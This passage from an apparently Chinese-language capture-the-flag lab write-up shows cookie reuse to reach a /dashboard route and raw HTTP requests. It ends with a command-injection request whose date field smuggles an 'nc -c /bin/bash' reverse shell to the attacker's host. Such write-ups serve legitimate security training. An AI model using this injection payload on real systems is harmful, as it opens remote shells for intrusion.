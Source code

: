 ```plaintext
aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=

Base 64 Decode: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

同时通过目录爆破，扫描到 `/dashboard` 路由

将得到的 cookie 填入浏览器中，访问 `http://10.10.11.8:5000/dashboard`

![img](img/image_20240349-224924.png)

对交互过程中的数据包进行抓包分析

```plaintext
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close

date=2023-09-15
```

### 命令拼接执行

尝试对参数进行拼接执行

```plaintext
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close

date=2023-09-15;nc -c /bin/bash 10.10.16.3 9999
```
